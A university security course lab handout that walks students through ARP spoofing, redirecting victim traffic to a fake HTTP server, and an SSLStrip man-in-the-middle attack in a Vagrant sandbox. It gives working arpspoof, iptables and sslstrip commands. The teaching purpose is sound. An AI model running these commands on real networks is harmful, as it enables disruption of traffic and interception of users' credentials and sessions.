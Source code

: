 # CSCD27 Lab 8: ARP spoofing and SSLStripping

## Vagrant Setup

Make sure to setup your environment as described in the [Vagrant Setup Guideline](https://github.com/ThierrySans/CSCD27-F16/blob/master/assignments/02/VAGRANT.md).

## Initial check

*As Alice*, test that Mathlab is reachable:

```shell
vagrant@alice:~$ curl http://mathlab.utsc.utoronto.ca/
```

## ARP Spoofing (Denial Of Service)

In this part, Mallory wants to disrupt the communication between Alice and the Gateway. To do so, Mallory will broadcast spoofed ARP packets to Alice saying that the gateway can be reached through Mallory's physical address.

*As Mallory (terminal 1), broadcast spoofed ARP messages to Alice (10.0.1.101) pretending to be the gateway (10.0.1.100):

```shell
vagrant@mallory:~$ sudo arpspoof -i eth1 -t 10.0.1.101 10.0.1.100
```

Finally:

- *As Alice*, test that Mathlab is no longer reachable.
- *As Mallory*, use Wireshark to see ARP spoofed messages and failed TCP messages

## ARP Spoofing (fake HTTP server)

In this part, rather than disrupting the communication between Alice and the Gateway, Mallory wants to setup a fake HTTP server pretending to be Mathlab. To do so, Mallory will first redirect HTTP messages to a fake server before spoofing the ARP messages.

*As Mallory* (terminal 1), start a fake HTTP server listening on port 8080

```shell
vagrant@mallory:~$ cd /vagrant/mallory/fake_http
vagrant@mallory:~$ python -m SimpleHTTPServer 8080
```

*As Mallory* (terminal 2), redirect HTTP traffic (coming from eth1 on port 80) to the fake HTTP server on Mallory's:

```shell
vagrant@mallory:~$ sudo bash -c "echo '1' > /proc/sys/net/ipv4/ip_forward"
vagrant@mallory:~$ sudo iptables -t nat -A PREROUTING -p tcp -i eth1 --dport 80 -j DNAT --to-destination 10.0.1.102:8080
```

*As Mallory* (terminal 2), broadcast spoofed ARP messages as done previously

Finally:

- *As Alice*, test that Mathlab is now reachable (but is it really mathlab?)
- *As Mallory*, use Wireshark to see the (fake) HTTP exchange

## Understanding HTTPS redirects

Before starting with this part, make sure to stop any ARPSpoofing you might have started.

As you may have noticed, it is possible to browse `mathlab.utsc.utoronto.ca` using both HTTP and HTTPS. You can also use curl to show the differences.

*As Alice*, use the `-v` option in curl to show the difference between HTTP abd HTTPS:

```shell
vagrant@alice:~$ curl -v http://mathlab.utsc.utoronto.ca/
vagrant@alice:~$ curl -v https://mathlab.utsc.utoronto.ca/
```

In practice, it is *strongly not recommended* to have the same content served with HTTP and HTTPS (see note about [mixed content](https://developer.mozilla.org/en-US/docs/Web/Security/Mixed_content)). Usually, the web server is configured to serve the content with HTTPS only. However, when someone uses HTTP, the server sends back a special HTTP response (HTTP Status Code 301: Moved Permanently) saying that the page has been relocated permanently to its HTTPS location. Conveniently, most web browsers follow this redirection automatically.

As an example, we have setup `http://mathlab.utsc.utoronto.ca/courses/cscd27f16/assignment/02/server/` to work like this. If you open this page (in HTTP) on your browser, you should see that you are being redirected automatically to `https://mathlab...`.

*As Alice*, use the `-v` option in curl to show the HTTP redirect response:

```shell
vagrant@alice:~$ curl -v http://mathlab.utsc.utoronto.ca/courses/cscd27f16/assignment/02/server/
```

*As Alice*, use the `-L` option in curl to follow the HTTPS redirects automatically (like most of web browsers do):

```shell
vagrant@alice:~$ curl -L http://mathlab.utsc.utoronto.ca/courses/cscd27f16/assignment/02/server/
```

## SSLStripping attack

The SSLStripping attack is a man-in-the-middle attack that aims at relaying messages between the victim and a web server. SSLStripping does not break the SSL tunnel that is resistant to man-in-the-middle attack however it works by intercepting the HTTPS redirects (sent in plaintext) to maintain an HTTP connection with the victim. Meanwhile, it sets up a connection with the server in HTTPS. Using that setup, the attacker can get all messages sent by the victim and all responses sent back from the server.

*As Mallory* (terminal 1), start an SSLStrip proxy on port 8080:

```shell
vagrant@mallory:~$ cd sslstrip-0.9
vagrant@mallory:~$ python sslstrip.py -a -w /vagrant/mallory/log.txt -l 8080 -f
```

*As Mallory* (terminal 2), broadcast spoofed ARP messages as done previously

Finally:

- *As Alice*, test that `http://mathlab.utsc.utoronto.ca/courses/cscd27f16/assignment/02/server/` is now reachable with HTTP
- *As Mallory*, open the file `log.txt` and see all HTTPS traffic